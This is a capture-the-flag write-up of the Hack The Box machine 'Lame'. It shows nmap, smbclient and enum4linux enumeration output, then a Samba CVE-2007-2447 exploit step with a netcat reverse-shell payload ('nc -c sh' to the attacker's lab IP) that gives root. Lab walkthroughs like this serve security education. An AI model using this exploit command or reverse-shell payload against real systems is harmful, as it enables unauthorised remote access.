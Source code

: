 #+TITLE:Lame write up
#+AUTHOR:Wordir

* Enumeration

as first step we ping the machine ip to see if the host is up , and because we are connected to the host
network with vpn, we can start emumerating the services that runs ont the target ip.
to do this we are going to use Nmap , an opensource software , usually used to perform scan on a network

as we can see we have a lot of service here , ssh (to perform remote connection) , ftp (to exchange file),
smb(server message block also used to share data and file in a network)

** result of the scan here:

*sudo nmap -sC -sV -O 10.10.10.3*      

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-23 09:02 EDT
Nmap scan report for 10.10.10.3
Host is up (0.045s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.36
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.23 (92%), Belkin N300 WAP (Linux 2.6.30) (90%), Control4 HC-300 home controller (90%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (90%), Dell Integrated Remote Access Controller (iDRAC5) (90%), Dell Integrated Remote Access Controller (iDRAC6) (90%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (90%), Linux 2.4.21 - 2.4.31 (likely embedded) (90%), Linux 2.4.7 (90%), Citrix XenServer 5.5 (Linux 2.6.18) (90%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-03-23T09:03:18-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h00m33s, deviation: 2h49m46s, median: 30s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.14 seconds


now because we have multiple services running on multiple ports, we need to test if someone has
a missconfiguration.

** FTP (File Transfer Protocol)

as first, when we see a port dedicated to ftp service, we try to login as:

*user:anonymous*
*password:" "*

The purpose of anonymous FTP access is to provide public access to files stored on the server,
often for purposes such as sharing software, documents, or other files with the general public.
However, because it allows anyone to access files without authentication,
anonymous FTP can pose security risks if not properly configured and monitored,
and sometimes it is possible to log in anonymously due to a misconfiguration

so , once we are in the ftp server we can se that we are in passive mode
(the server tells to the client in which port the client needs to connect for recieve or transfer the data )
and we cant list the direcories or even download some file, so for now it's time to chance ouar target service


** SMB(Server Message Block)
to perform a login and communicate with the SMB server we use *smbclient*
The following command will list out all available shares on the target server using anonymous login.

*smbclient -L \\hackthebox.gr -I 10.10.10.3 -N*

hackthebox.gr is the domain, 10.10.10.3 is the ip of the SMB server

*-L* allows you to look at what services are available on a server.

*-N* If specified, this parameter suppresses the normal password prompt from the client to the user.
This is useful when accessing a service that does not require a password.

** Result:

smbclient -L \\hackthebox.gr -I 10.10.10.3 -N
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful


now it' time for a better enumeration with *enum4linux* 

*** enum4linux:
enum4linux -a 10.10.10.3
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat Mar 23 10:37:56 2024

 =========================================( Target Information )=========================================

Target ........... 10.10.10.3
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 =============================( Enumerating Workgroup/Domain on 10.10.10.3 )=============================


[E] Can't find workgroup/domain



 =================================( Nbtstat Information for 10.10.10.3 )=================================

Looking up status of 10.10.10.3
No reply from 10.10.10.3

 ====================================( Session Check on 10.10.10.3 )====================================
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+] Server 10.10.10.3 allows sessions using username '', password ''                                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
 =================================( Getting domain SID for 10.10.10.3 )=================================
                                                                                                                                                                                                                                                                                                                            
Domain Name: WORKGROUP                                                                                                                                                                                                                                                                                                      
Domain Sid: (NULL SID)

[+] Can't determine if host is part of domain or part of a workgroup                                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
 ====================================( OS information on 10.10.10.3 )====================================
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[E] Can't get OS info with smbclient                                                                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+] Got OS info for 10.10.10.3 from srvinfo:                                                                                                                                                                                                                                                                                
        LAME           Wk Sv PrQ Unx NT SNT lame server (Samba 3.0.20-Debian)                                                                                                                                                                                                                                               
        platform_id     :       500
        os version      :       4.9
        server type     :       0x9a03


 ========================================( Users on 10.10.10.3 )========================================
                                                                                                                                                                                                                                                                                                                            
index: 0x1 RID: 0x3f2 acb: 0x00000011 Account: games    Name: games     Desc: (null)                                                                                                                                                                                                                                        
index: 0x2 RID: 0x1f5 acb: 0x00000011 Account: nobody   Name: nobody    Desc: (null)
index: 0x3 RID: 0x4ba acb: 0x00000011 Account: bind     Name: (null)    Desc: (null)
index: 0x4 RID: 0x402 acb: 0x00000011 Account: proxy    Name: proxy     Desc: (null)
index: 0x5 RID: 0x4b4 acb: 0x00000011 Account: syslog   Name: (null)    Desc: (null)
index: 0x6 RID: 0xbba acb: 0x00000010 Account: user     Name: just a user,111,, Desc: (null)
index: 0x7 RID: 0x42a acb: 0x00000011 Account: www-data Name: www-data  Desc: (null)
index: 0x8 RID: 0x3e8 acb: 0x00000011 Account: root     Name: root      Desc: (null)
index: 0x9 RID: 0x3fa acb: 0x00000011 Account: news     Name: news      Desc: (null)
index: 0xa RID: 0x4c0 acb: 0x00000011 Account: postgres Name: PostgreSQL administrator,,,       Desc: (null)
index: 0xb RID: 0x3ec acb: 0x00000011 Account: bin      Name: bin       Desc: (null)
index: 0xc RID: 0x3f8 acb: 0x00000011 Account: mail     Name: mail      Desc: (null)
index: 0xd RID: 0x4c6 acb: 0x00000011 Account: distccd  Name: (null)    Desc: (null)
index: 0xe RID: 0x4ca acb: 0x00000011 Account: proftpd  Name: (null)    Desc: (null)
index: 0xf RID: 0x4b2 acb: 0x00000011 Account: dhcp     Name: (null)    Desc: (null)
index: 0x10 RID: 0x3ea acb: 0x00000011 Account: daemon  Name: daemon    Desc: (null)
index: 0x11 RID: 0x4b8 acb: 0x00000011 Account: sshd    Name: (null)    Desc: (null)
index: 0x12 RID: 0x3f4 acb: 0x00000011 Account: man     Name: man       Desc: (null)
index: 0x13 RID: 0x3f6 acb: 0x00000011 Account: lp      Name: lp        Desc: (null)
index: 0x14 RID: 0x4c2 acb: 0x00000011 Account: mysql   Name: MySQL Server,,,   Desc: (null)
index: 0x15 RID: 0x43a acb: 0x00000011 Account: gnats   Name: Gnats Bug-Reporting System (admin)        Desc: (null)
index: 0x16 RID: 0x4b0 acb: 0x00000011 Account: libuuid Name: (null)    Desc: (null)
index: 0x17 RID: 0x42c acb: 0x00000011 Account: backup  Name: backup    Desc: (null)
index: 0x18 RID: 0xbb8 acb: 0x00000010 Account: msfadmin        Name: msfadmin,,,       Desc: (null)
index: 0x19 RID: 0x4c8 acb: 0x00000011 Account: telnetd Name: (null)    Desc: (null)
index: 0x1a RID: 0x3ee acb: 0x00000011 Account: sys     Name: sys       Desc: (null)
index: 0x1b RID: 0x4b6 acb: 0x00000011 Account: klog    Name: (null)    Desc: (null)
index: 0x1c RID: 0x4bc acb: 0x00000011 Account: postfix Name: (null)    Desc: (null)
index: 0x1d RID: 0xbbc acb: 0x00000011 Account: service Name: ,,,       Desc: (null)
index: 0x1e RID: 0x434 acb: 0x00000011 Account: list    Name: Mailing List Manager      Desc: (null)
index: 0x1f RID: 0x436 acb: 0x00000011 Account: irc     Name: ircd      Desc: (null)
index: 0x20 RID: 0x4be acb: 0x00000011 Account: ftp     Name: (null)    Desc: (null)
index: 0x21 RID: 0x4c4 acb: 0x00000011 Account: tomcat55        Name: (null)    Desc: (null)
index: 0x22 RID: 0x3f0 acb: 0x00000011 Account: sync    Name: sync      Desc: (null)
index: 0x23 RID: 0x3fc acb: 0x00000011 Account: uucp    Name: uucp      Desc: (null)

user:[games] rid:[0x3f2]
user:[nobody] rid:[0x1f5]
user:[bind] rid:[0x4ba]
user:[proxy] rid:[0x402]
user:[syslog] rid:[0x4b4]
user:[user] rid:[0xbba]
user:[www-data] rid:[0x42a]
user:[root] rid:[0x3e8]
user:[news] rid:[0x3fa]
user:[postgres] rid:[0x4c0]
user:[bin] rid:[0x3ec]
user:[mail] rid:[0x3f8]
user:[distccd] rid:[0x4c6]
user:[proftpd] rid:[0x4ca]
user:[dhcp] rid:[0x4b2]
user:[daemon] rid:[0x3ea]
user:[sshd] rid:[0x4b8]
user:[man] rid:[0x3f4]
user:[lp] rid:[0x3f6]
user:[mysql] rid:[0x4c2]
user:[gnats] rid:[0x43a]
user:[libuuid] rid:[0x4b0]
user:[backup] rid:[0x42c]
user:[msfadmin] rid:[0xbb8]
user:[telnetd] rid:[0x4c8]
user:[sys] rid:[0x3ee]
user:[klog] rid:[0x4b6]
user:[postfix] rid:[0x4bc]
user:[service] rid:[0xbbc]
user:[list] rid:[0x434]
user:[irc] rid:[0x436]
user:[ftp] rid:[0x4be]
user:[tomcat55] rid:[0x4c4]
user:[sync] rid:[0x3f0]
user:[uucp] rid:[0x3fc]

 ==================================( Share Enumeration on 10.10.10.3 )==================================
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAME

[+] Attempting to map shares on 10.10.10.3                                                                                                                                                                                                                                                                                  
                                                                                                                                                                                                                                                                                                                            
//10.10.10.3/print$     Mapping: DENIED Listing: N/A Writing: N/A                                                                                                                                                                                                                                                           
//10.10.10.3/tmp        Mapping: OK Listing: OK Writing: N/A
//10.10.10.3/opt        Mapping: DENIED Listing: N/A Writing: N/A

[E] Can't understand response:                                                                                                                                                                                                                                                                                              
                                                                                                                                                                                                                                                                                                                            
NT_STATUS_NETWORK_ACCESS_DENIED listing \*                                                                                                                                                                                                                                                                                  
//10.10.10.3/IPC$       Mapping: N/A Listing: N/A Writing: N/A
//10.10.10.3/ADMIN$     Mapping: DENIED Listing: N/A Writing: N/A

 =============================( Password Policy Information for 10.10.10.3 )=============================
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            

[+] Attaching to 10.10.10.3 using a NULL share

[+] Trying protocol 139/SMB...

[+] Found domain(s):

        [+] LAME
        [+] Builtin

[+] Password Info for Domain: LAME

        [+] Minimum password length: 5
        [+] Password history length: None
        [+] Maximum password age: Not Set
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Minimum password age: None
        [+] Reset Account Lockout Counter: 30 minutes 
        [+] Locked Account Duration: 30 minutes 
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: Not Set



[+] Retieved partial password policy with rpcclient:                                                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
Password Complexity: Disabled                                                                                                                                                                                                                                                                                               
Minimum Password Length: 0


 ========================================( Groups on 10.10.10.3 )========================================
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+] Getting builtin groups:                                                                                                                                                                                                                                                                                                 
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+]  Getting builtin group memberships:                                                                                                                                                                                                                                                                                     
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+]  Getting local groups:                                                                                                                                                                                                                                                                                                  
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+]  Getting local group memberships:                                                                                                                                                                                                                                                                                       
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+]  Getting domain groups:                                                                                                                                                                                                                                                                                                 
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+]  Getting domain group memberships:                                                                                                                                                                                                                                                                                      
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
 ===================( Users on 10.10.10.3 via RID cycling (RIDS: 500-550,1000-1050) )===================
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[I] Found new SID:                                                                                                                                                                                                                                                                                                          
S-1-5-21-2446995257-2525374255-2673161615                                                                                                                                                                                                                                                                                   

[+] Enumerating users using SID S-1-5-21-2446995257-2525374255-2673161615 and logon username '', password ''                                                                                                                                                                                                                
                                                                                                                                                                                                                                                                                                                            
S-1-5-21-2446995257-2525374255-2673161615-500 LAME\Administrator (Local User)                                                                                                                                                                                                                                               
S-1-5-21-2446995257-2525374255-2673161615-501 LAME\nobody (Local User)
S-1-5-21-2446995257-2525374255-2673161615-512 LAME\Domain Admins (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-513 LAME\Domain Users (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-514 LAME\Domain Guests (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1000 LAME\root (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1001 LAME\root (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1002 LAME\daemon (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1003 LAME\daemon (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1004 LAME\bin (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1005 LAME\bin (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1006 LAME\sys (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1007 LAME\sys (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1008 LAME\sync (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1009 LAME\adm (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1010 LAME\games (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1011 LAME\tty (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1012 LAME\man (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1013 LAME\disk (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1014 LAME\lp (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1015 LAME\lp (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1016 LAME\mail (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1017 LAME\mail (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1018 LAME\news (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1019 LAME\news (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1020 LAME\uucp (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1021 LAME\uucp (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1025 LAME\man (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1026 LAME\proxy (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1027 LAME\proxy (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1031 LAME\kmem (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1041 LAME\dialout (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1043 LAME\fax (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1045 LAME\voice (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1049 LAME\cdrom (Domain Group)

 ================================( Getting printer info for 10.10.10.3 )================================
                                                                                                                                                                                                                                                                                                                            
No printers returned.                                                                                                                                                                                                                                                                                                       


enum4linux complete on Sat Mar 23 10:39:35 2024



* Exploit

we find that the anonymous login is active, but we didn't find anything interesting in
the only folder we had access to as an anonymous user (tmp)

so now it's time to take a look to the samba service version, *netbios-ssn Samba smbd 3.0.20-Debian*
we found out that there is a CVE for remote code execution : *CVE-2007-2447*, and
we found a poc at this repo on git hub: [[https://github.com/Ziemni/CVE-2007-2447-in-Python][Poc]]

with these command : *python3 smbExploit.py  10.10.10.3 445 'nc -c sh 10.10.14.36 4444'* 

we spawned a shell as root, and we found the root flag and the user flag
